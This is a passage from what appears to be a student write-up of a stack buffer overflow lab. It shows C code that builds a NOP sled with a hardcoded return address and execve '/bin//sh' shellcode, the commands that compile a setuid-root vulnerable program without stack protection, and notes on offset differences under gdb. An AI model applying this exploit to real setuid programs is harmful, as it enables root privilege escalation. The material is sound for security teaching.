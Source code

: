 ```C
"\x89\xe3"
"\x50"
"\x53"
"\x89\xe1"
"\x99"
"\xb0\x0b"
"\xcd\x80"
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;
    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);
    /* You need to fill the buffer with appropriate contents here */
    long addr = 0xBFFFF4B0;
    long *ptr = (long *) (buffer + 16);
    *ptr = addr;
    memcpy(buffer + 20, shellcode, sizeof(shellcode)-1);
    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

Then test with following commands:
```bash
$ gcc -o exploit exploit.c
$ ./exploit
$ gcc -fno-stack-protector -o stack stack.c
$ sudo chown root:root stack
$ sudo chmod 4755 stack
$ ./stack
```
Out of our expectation, we got a segmentation fault.

We test it again in `gdb`, we see the shell prompt and it works.

After some research, we found the reason is that program may have different envirenment arguments when running in `gdb`, which leads to different memory offset.

There's different solutions to this problem. For example, we can make sure the environment variable are the same inside/outside `gdb`, or we can change source code of `stack.c` and print the `ESP`, then hard code it into the exploit. Here, however, we use a smarter method. Since we can control 517 bytes in the stack after `buffer[12]`, we can simply put shellcode at the tail and leave a large space of `0x90`, then we overwrite `Return Address` loosely to be some
address between `buffer + 20` and the entry point of the shellcode.

Now, `exploit.c` looks like this:
```C
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=
"\x31\xc0"
"\x50"
"\x68""//sh"
"\x68""/bin"
"\x89\xe3"
"\x50"
"\x53"
"\x89\xe1"
```